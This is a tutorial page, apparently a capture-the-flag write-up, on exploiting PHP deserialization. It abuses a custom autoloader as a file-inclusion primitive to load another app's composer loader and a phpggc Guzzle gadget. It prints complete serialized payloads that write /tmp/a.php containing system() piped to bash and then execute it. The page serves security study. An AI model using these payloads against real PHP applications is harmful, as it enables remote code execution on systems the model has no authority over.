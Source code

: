 # PHP - Deserialization + Autoload Classes
{{#include /banners/hacktricks-training.md}}


{{#include ../../banners/hacktricks-training.md}}

First, you should check what are [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserialization + spl_autoload_register + LFI/Gadget

We are in a situation where we found a **PHP deserialization in a webapp** with **no** library vulnerable to gadgets inside **`phpggc`**. However, in the same container there was a **different composer webapp with vulnerable libraries**. Therefore, the goal was to **load the composer loader of the other webapp** and abuse it to **load a gadget that will exploit that library with a gadget** from the webapp vulnerable to deserialization.

Steps:

- You have found a **deserialization** and there **isn’t any gadget** in the current app code
- You can abuse a **`spl_autoload_register`** function like the following to **load any local file with `.php` extension**
  - For that you use a deserialization where the name of the class is going to be inside **`$name`**. You **cannot use "/" or "."** in a class name in a serialized object, but the **code** is **replacing** the **underscores** ("\_") **for slashes** ("/"). So a class name such as `tmp_passwd` will be transformed into `/tmp/passwd.php` and the code will try to load it.\
    A **gadget example** will be: **`O:10:"tmp_passwd":0:{}`**

```php
spl_autoload_register(function ($name) {

   if (preg_match('/Controller$/', $name)) {
       $name = "controllers/${name}";
   } elseif (preg_match('/Model$/', $name)) {
       $name = "models/${name}";
   } elseif (preg_match('/_/', $name)) {
       $name = preg_replace('/_/', '/', $name);
   }

   $filename = "/${name}.php";

   if (file_exists($filename)) {
       require $filename;
   }
   elseif (file_exists(__DIR__ . $filename)) {
       require __DIR__ . $filename;
   }
});
```

> [!TIP]
> If you have a **file upload** and can upload a file with **`.php` extension** you could **abuse this functionality directly** and get already RCE.

In my case, I didn’t have anything like that, but there was inside the **same container** another composer web page with a **library vulnerable to a `phpggc` gadget**.

- To load this other library, first you need to **load the composer loader of that other web app** (because the one of the current application won’t access the libraries of the other one.) **Knowing the path of the application**, you can achieve this very easily with: **`O:28:"www_frontend_vendor_autoload":0:{}`** (In my case, the composer loader was in `/www/frontend/vendor/autoload.php`)
- Now, you can **load** the others **app composer loader**, so it’s time to **`generate the phpgcc`** **payload** to use. In my case, I used **`Guzzle/FW1`**, which allowed me to **write any file inside the filesystem**.
  - NOTE: The **generated gadget was not working**, in order for it to work I **modified** that payload **`chain.php`** of phpggc and set **all the attribute**s of the classes **from private to public**. If not, after deserializing the string, the attributes of the created objects didn’t have any values.
- Now we have the way to **load the others app composer loader** and have a **phpggc payload that works**, but we need to **do this in the SAME REQUEST for the loader to be loaded when the gadget is used**. For that, I sent a serialized array with both objects like:
  - You can see **first the loader being loaded and then the payload**

```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```

- Now, we can **create and write a file**, however, the user **couldn’t write in any folder inside the web server**. So, as you can see in the payload, PHP calling **`system`** with some **base64** is created in **`/tmp/a.php`**. Then, we can **reuse the first type of payload** that we used to as LFI to load the composer loader of the other webapp t**o load the generated `/tmp/a.php`** file. Just add it to the deserialization gadget:

```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```

**Summary of the payload**

- **Load the composer autoload** of a different webapp in the same container
- **Load a phpggc gadget** to abuse a library from the other webapp (the initial webapp vulnerable to deserialization didn’t have any gadget on its libraries)
- The gadget will **create a file with a PHP payload** on it in /tmp/a.php with malicious commands (the webapp user cannot write in any folder of any webapp)
- The final part of our payload will use **load the generated php file** that will execute commands

I needed to **call this deserialization twice**. In my testing, the first time the `/tmp/a.php` file was created but not loaded, and the second time it was correctly loaded.

{{#include ../../banners/hacktricks-training.md}}
